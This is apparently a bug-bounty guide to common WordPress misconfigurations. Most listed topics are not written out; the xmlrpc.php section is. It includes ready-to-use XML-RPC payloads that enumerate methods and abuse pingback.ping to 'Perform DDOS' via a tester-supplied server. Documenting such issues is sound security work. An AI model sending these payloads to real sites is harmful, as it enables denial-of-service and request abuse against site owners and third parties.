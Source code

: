 # Wordpress Common Misconfiguration

Here I will try my best to mention all common security misconfigurations for Wordpress I saw before or officially referenced. I will be attaching all poc and reference as well

# Index

-   Wordpress Detection
-   General Scan Tool
-   xmlrpc.php
-   Directory listing
-   CVE-2018-6389
-   CVE-2021-24364
-   WP Cornjob DOS
-   WP User Enumeration

# Wordpress Detection

Well, if you are reading this you already know about technology detection tool and methods.
Still adding them below

-   Wappalyzer
-   WhatRuns
-   BuildWith

# Geneal Scan Tool

-   WpScan

# xmlrpc.php

This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

### Detection

-   visit site.com/xmlrpc.php
-   Get the error message about POST request only

### Exploit

-   Intercept the request and change the method GET to POST
-   List all Methods
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
-   Check the `pingback.ping` mentod is there or not
-   Perform DDOS
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
